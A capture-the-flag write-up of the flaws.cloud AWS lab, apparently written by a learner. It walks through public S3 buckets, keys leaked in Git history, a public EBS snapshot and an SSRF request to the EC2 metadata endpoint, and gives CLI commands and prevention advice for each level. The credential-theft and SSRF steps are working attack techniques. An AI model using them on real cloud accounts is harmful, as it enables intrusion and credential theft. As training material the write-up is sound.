# Lab 02 — flaws.cloud: AWS Misconfiguration Challenge

**Date:** June 2026  
**Platform:** flaws.cloud (deliberately vulnerable AWS environment)  
**Services involved:** S3, IAM, EC2, Lambda, API Gateway, EC2 Metadata Service  
**Difficulty:** Beginner to Intermediate  
**Time taken:** ~3 hours  

---

## Overview

flaws.cloud is a free, legal, deliberately vulnerable AWS environment created by security researcher Scott Piper. It consists of 6 levels, each teaching a real-world AWS misconfiguration that has caused actual breaches. All work was done against the flaws.cloud infrastructure — no real systems were harmed.

---

## Level 1 — Public S3 Bucket

### Vulnerability
An S3 bucket was configured to allow public access, exposing all its contents to anyone on the internet.

### How I found it
The website `flaws.cloud` is hosted on S3. Using DNS reconnaissance I confirmed it pointed to AWS IP ranges. AWS S3 buckets follow a standard URL format:
```
http://[bucketname].s3.amazonaws.com
```
Visiting `http://flaws.cloud.s3.amazonaws.com` returned an XML listing of all files in the bucket.

### What I found
```
hint1.html
hint2.html
hint3.html
index.html
logo.png
robots.txt
secret-dd02c7c.html  ← sensitive file exposed
```



Accessing `secret-dd02c7c.html` directly revealed the Level 2 URL.



### Why this matters
This is the most common cloud misconfiguration. Real-world breaches caused this way include GoDaddy, Twitch, and numerous others. Any file in a public bucket is readable by anyone with the URL.

### How to prevent it
- Enable **Block Public Access** at the AWS account level
- Use **AWS Config rule** `s3-bucket-public-read-prohibited` to detect violations
- Regularly audit bucket permissions with AWS Security Hub

---

## Level 2 — S3 Bucket Accessible to Any AWS User

### Vulnerability
The bucket was not fully public but was configured to allow access by **any authenticated AWS user** — meaning anyone with any AWS account worldwide could access it.

### How I found it
Using the AWS CLI with my own credentials:
```bash
aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
```



This returned the full file listing including `secret-e4443fc.html`.



### Why this matters
The bucket owner believed they were being secure by requiring authentication. However, "any authenticated AWS user" means any of the millions of AWS accounts worldwide — not just users in their own account. This is a subtle but critical misconfiguration.

### How to prevent it
- Never use "Any Authenticated AWS User" as a grantee
- Use **resource-based policies** that explicitly list allowed AWS account IDs
- AWS no longer allows this setting via the console — but it can still be set via SDK and third-party tools

---

## Level 3 — AWS Credentials Leaked in Git History

### Vulnerability
A developer accidentally committed AWS access keys to a Git repository, then deleted the file. However, Git history preserves deleted files forever.

### How I found it
Listing the Level 3 bucket revealed a `.git/` folder:
```bash
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
```
Output showed:
```
PRE .git/
authenticated_users.png
...
```

I downloaded the entire Git repository:
```bash
mkdir /tmp/level3
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git /tmp/level3/.git
cd /tmp/level3
git init
git log
```

The commit history showed:
```
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
"Oops, accidentally added something I shouldn't have"

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
"first commit"
```

Checking out the first commit revealed `access_keys.txt` containing live AWS credentials.



### Using the leaked keys
Configuring the leaked keys and running `aws s3 ls` revealed every single bucket in the flaws.cloud AWS account — including all remaining levels and internal buckets.



### Why this matters
This is one of the most common real-world breaches. Bots scan GitHub 24/7 and can steal leaked credentials within seconds of a push. Deleting the file does not remove it from Git history.

### How to prevent it
- Install **git-secrets** to block credential commits before they happen
- Use **AWS Secrets Manager** or environment variables instead of hardcoded credentials
- If credentials leak: immediately revoke them, check CloudTrail for unauthorised use, rotate all secrets
- Use **BFG Repo Cleaner** to purge sensitive data from Git history (but assume breach if repo was ever public)

---

## Level 4 — Exposed EC2 Snapshot

### Vulnerability
An EC2 snapshot (backup) was made public, allowing anyone to create a volume from it, attach it to their own EC2 instance, and read all data that was on the original server.

### How I found it
Using the leaked credentials from Level 3, I searched for snapshots owned by the flaws.cloud account:
```bash
aws --profile flaws ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
```

Found snapshot `snap-0b49342abd1bdcb89` — unencrypted and publicly accessible.



### Exploiting it
1. Created a volume from the snapshot in my own AWS account
2. Launched an EC2 instance in us-west-2
3. Attached the volume to my instance
4. SSH'd into the instance and mounted the volume:
```bash
sudo mkdir /mnt/flaws
sudo mount /dev/xvdf1 /mnt/flaws
```
5. Read the nginx setup script:
```bash
cat /mnt/flaws/home/ubuntu/setupNginx.sh
```
Output:
```
htpasswd -b /etc/nginx/.htpasswd flaws nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M
```



Used these credentials to log into the protected Level 4 web page.



### Why this matters
Snapshots contain everything that was on a server at the time of backup — passwords, config files, private keys, database dumps. Making them public is equivalent to handing an attacker a copy of your entire server.

### How to prevent it
- Never make snapshots public
- **Encrypt all EBS volumes and snapshots** — encrypted snapshots cannot be shared publicly
- Audit snapshot permissions regularly with AWS Config rule `ec2-ebs-encryption-by-default`
- Rotate credentials after any snapshot is taken

---

## Level 5 — SSRF to EC2 Metadata Credential Theft

### Vulnerability
An EC2 instance was running an HTTP proxy that would fetch any URL provided to it. This allowed an attacker to make the server fetch the internal AWS metadata endpoint `169.254.169.254`, which returns temporary IAM credentials for the instance.

### How I found it
The proxy accepted URLs in this format:
```
http://[server]/proxy/[url]
```

I used it to access the metadata endpoint — normally only accessible from within the EC2 instance:
```
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws
```

This returned full temporary AWS credentials including AccessKeyId, SecretAccessKey, and SessionToken.



### Using the stolen credentials
Configured the credentials as an AWS CLI profile and listed the Level 6 bucket:
```bash
aws --profile level5 s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
```
Revealed a hidden directory: `ddcc78ff/`





### Why this matters
This is the exact attack used in the **Capital One breach (2019)** which exposed data of over 100 million customers and cost $190 million in fines. Any application that makes server-side HTTP requests to user-supplied URLs is potentially vulnerable.

### How to prevent it
- **Enforce IMDSv2** on all EC2 instances — this requires a special token header that a simple proxy cannot provide
- Block application access to `169.254.169.254` and all private IP ranges at the network level
- Use security groups and NACLs to restrict outbound traffic from EC2 instances
- Apply least privilege to EC2 instance IAM roles

---

## Level 6 — IAM Enumeration via SecurityAudit Policy

### Vulnerability
A user with the `SecurityAudit` policy and an additional `list_apigateways` policy could enumerate Lambda functions and API Gateway endpoints, ultimately invoking a Lambda function that revealed the final flag.

### How I found it
With the provided Level 6 credentials I enumerated attached policies:
```bash
aws --profile level6 iam list-attached-user-policies --user-name Level6
```
Found two policies: `MySecurityAudit` and `list_apigateways`.

Used Lambda list permissions to find the Level6 function:
```bash
aws --profile level6 lambda list-functions --region us-west-2
```

Retrieved the Lambda execution policy to find the API Gateway ID `s33ppypa75`, then found the `Prod` stage and invoked:
```
https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6
```



